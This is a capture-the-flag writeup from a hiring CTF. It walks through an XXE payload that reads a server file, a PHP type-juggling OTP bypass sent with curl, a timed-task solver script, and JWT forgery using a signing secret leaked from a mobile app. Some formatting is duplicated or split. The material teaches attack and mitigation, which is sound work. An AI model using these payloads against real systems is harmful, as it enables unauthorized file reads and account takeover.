



# CloudSEK Hiring CTF-1 – Writeup

**Author:** Akash Varunn D  
**Username:** @kvnn  

---

## Challenge 1


### Reconnaissance

Upon inspecting the page source, a suspicious JavaScript snippet was found handling the form submission.


Instead of sending a standard POST request with form data, the script explicitly constructs an **XML document** on the client side.


```javascript
// Intercept the form submit and send XML instead of form-encoded data
const xml = `<?xml version="1.0" encoding="UTF-8"?>
<feedback>
    <name>${name}</name>
    <message>${message}</message>
</feedback>`;

```
## XML External Entity (XXE)

This reveals that the backend is parsing XML input.

The phrase *“accepted at face value”* hints that the XML parser likely has **External Entities enabled**, making it vulnerable to **XXE Injection**.

---

## Vulnerability: XML External Entity (XXE)

XML External Entity (XXE) attacks occur when an XML parser is weakly configured to process custom **Document Type Definitions (DTDs)**.

An attacker can define a malicious external entity (for example, `&xxe;`) that references a sensitive file on the server’s filesystem.

When the parser processes the XML document, it replaces the entity with the contents of the referenced file.

---

## Exploitation Process

### Step 1: Bypassing Client-Side Logic

We cannot simply type the exploit into the web page’s **Message** box.

The JavaScript code automatically wraps user input inside `<message>` tags.

An XXE attack requires declaring a `DOCTYPE` at the very top of the XML structure, which the client-side wrapper prevents.

**Solution:**  
Intercept the request using **Burp Suite** or send a crafted request manually.

---

### Step 2: Crafting the Payload

The payload must:

- Declare a `DOCTYPE`
- Define an external entity using `SYSTEM`
- Reference the entity inside the `<message>` element

Initial attempts targeting `file:///flag` returned no output.

Changing the target to `file:///flag.txt` succeeded.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
 <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<feedback>
  <name>Hacker</name>
  <message>&xxe;</message>
</feedback>
```
### Step 3: Execution

Sending this payload via **Burp Repeater** caused the server to resolve the external entity and return the contents of `/flag.txt`.

---


## Mitigation

To prevent XXE vulnerabilities, XML parsers must explicitly disable DTDs and external entity resolution.

```python
# SECURE CONFIGURATION
parser = etree.XMLParser(resolve_entities=False, no_network=True)
tree = etree.fromstring(xml_input, parser)
```
## Challenge 2:


### Reconnaissance

The login page titled **“Triangle – Log in to get the surprise”** required a username, password, and three OTP values.


Inspecting the HTML source revealed leftover `.bak` files.

The authentication logic was handled by `login.php` and `google2fa.php`.


---

### Source Code Retrieval

```text
GET /login.php.bak
GET /google2fa.php.bak
```

### Code Analysis

#### login.php

Hardcoded credentials were found:

```php
"admin" => [
    "password_hash" => password_hash("admin", PASSWORD_DEFAULT),
]
```
**Valid credentials:**
- Username: `admin`
- Password: `admin`

---

#### google2fa.php


OTP verification logic:

```php
if (self::oath_hotp($binarySeed, $ts) == $key)
    return true;
```

### The OTP Check:
    
    Lines 34-42 show how the OTPs are verified:
    
    PHP
    
    ```
    if (!Google2FA::verify_key($user_data['key1'], $_DATA['otp1'])) {
        json_die('wrong otp1', 'otp1');
    }
    // Repeats for otp2 and otp3
    ```
    
    It calls the `verify_key` function from the `Google2FA` class.
    
    
 #### **Analyzing `google2fa.php`**
 


Next, we examine the `verify_key` function to see how it compares the user's input against the secret key.

1. The Vulnerable Line:
    
    On line 110, inside verify_key, we see the actual comparison:
    
    PHP
    
    ```
    if (self::oath_hotp($binarySeed, $ts) == $key)
        return true;
    ```
    
2. The Flaw (Type Juggling):
    
    The code uses the loose comparison operator (==) instead of the strict comparison operator (===).
    
    - `self::oath_hotp(...)` returns the valid OTP as a **String** (e.g., `"592834"`).
        
    - `$key` is the user input `$_DATA['otp1']`.
        
    
    **In PHP:** If you compare a standard **String** to a **Boolean `true`** using `==`, the result is `TRUE`.
    
    - `"123456" == true` $\rightarrow$ **True**
    
    
   ### **4. Exploitation Strategy**

To bypass the OTP check, we do not need to generate the correct numbers. We simply need to force the server to compare the correct OTP string against a boolean `true`.

The web page uses JavaScript `fetch` to send JSON data. We can intercept this request and modify the JSON types.

**Normal Request:**

JSON

```
{
  "username": "admin",
  "password": "admin",
  "otp1": "123456",
  "otp2": "123456",
  "otp3": "123456"
}
```

Exploit Payload:

We change the OTP values from strings ("...") to raw booleans (true).

JSON

```
{
  "username": "admin",
  "password": "admin",
  "otp1": true,
  "otp2": true,
  "otp3": true
}
```

### **5. Execution**

We can execute this using `curl` or by using Burp Suite Repeater.

**Using Curl:**

Bash

```
curl -X POST https://triangle-services-ctf.com/login.php \
     -H "Content-Type: application/json" \
     -d '{"username": "admin", "password": "admin", "otp1": true, "otp2": true, "otp3": true}'
```

### **6. Result**

The PHP script processes the boolean `true`.  
The loose comparison `"OTP_STRING" == true` evaluates to true for all three keys.  
The server bypasses the checks and returns the flag.

**Response:**


---

## Programming / Scripting – Question 1


---

### Problem Overview

The `/task` endpoint returns a random string that must be transformed and submitted within a strict time limit.  
Because of the timer restriction, solving this manually is impractical and requires scripting.

---

### Initial Reconnaissance

To understand the response format, a preliminary request was sent to the `/task` endpoint:

```python
r = requests.get("http://15.206.47.5:9090/task")
print(r.text)

```



This confirmed that the target string is embedded inside a `<p>` tag and prefixed with:


To solve this, we needed a script that could perform the operations faster than a human.  
The critical component was maintaining **Session Persistence**.

If we used a standard `requests.get` followed by `requests.post`, the server would treat them as two different users (or a new session), and the timer validation would fail.

We used `requests.Session()` to ensure cookies and session identifiers were preserved between the GET and POST requests.

---

### **The Algorithm**

1. **Initialize Session:** Start `requests.Session()`.
2. **GET Request:** Fetch `/task`.
3. **Extraction:** Use Regex (`Here is the input string:\s*([a-zA-Z0-9]+)`) to isolate the random string.
4. **Transformation:**
   - Reverse the string
   - Base64 encode it
   - Wrap it as `CSK__<encoded>__2025`
5. **POST Request:** Send the payload to `/submit` immediately.

---

### **Exploit Script**

```python
import requests
import base64
import re

BASE_URL = "http://15.206.47.5:9090"
TASK_URL = f"{BASE_URL}/task"
SUBMIT_URL = f"{BASE_URL}/submit"

def solve():
    # 1. Start a Session to maintain the timer/cookie state
    s = requests.Session()
    
    # 2. Fetch the task
    try:
        response = s.get(TASK_URL)
        response.raise_for_status()
    except Exception as e:
        print(f"[-] Connection failed: {e}")
        return
```


    # 3. Extract the string using Regex
    match = re.search(r"Here is the input string:\s*([a-zA-Z0-9]+)", response.text)
    
    if not match:
        print("[-] Could not find the input string. Check regex.")
        return
        
    random_string = match.group(1)
    print(f"[+] Received String: {random_string}")

    # 4. Process the string
    reversed_str = random_string[::-1]
    b64_encoded = base64.b64encode(reversed_str.encode()).decode()
    payload = f"CSK__{b64_encoded}__2025"
    
    print(f"[+] Calculated Payload: {payload}")

    # 5. Submit
    result = s.post(SUBMIT_URL, data=payload)
    
    print("\n[+] Server Response:")
    print(result.text)

if __name__ == "__main__":
    solve()


The PHP script processes the boolean `true`. The loose comparison `"OTP_STRING" == true` evaluates to true for all three keys. The server bypasses the checks and returns the flag.

**Response:**


## Challenge 4: Web3 – JWT Privilege Escalation

### Reconnaissance

The analysis started by visiting the following BeVigil report:

https://bevigil.com/report/com.strikebank.netbanking

Using **BeVigil**, I performed static analysis on the Android application.  
The scan revealed multiple **hardcoded secrets** inside the application resources file:

resources/res/values/strings.xml





---

### Secret Cookie Discovery

While reviewing the extracted strings, a **JWT signing secret** was identified.



Further analysis revealed host configuration entries that pointed to additional internal endpoints.


Visiting the discovered endpoint revealed the application dashboard.


---

### JWT Analysis & Privilege Escalation

After logging in as a normal user, no privileged endpoints were accessible.

I inspected the browser’s **Application** tab and realized that a **JWT signing secret** had already been leaked during static analysis.

The JWT token was decoded to inspect its contents:


I modified the JWT payload by changing the username to `admin` and re-signed the token using the leaked secret:

str!k3b4nk@1009%sup3r!s3cr37


---

### Cookie Injection & Flag Retrieval

The modified JWT was manually replaced in the browser’s cookies.

After refreshing the page, the privilege escalation succeeded and the application granted **admin-level access**, revealing the flag.


---

### Key Takeaways

- Hardcoded secrets in mobile applications can directly compromise backend security
- Leaked JWT signing secrets enable full privilege escalation
- Static analysis tools like **BeVigil** are highly effective during reconnaissance
- JWT secrets must never be embedded in client-side applications


    
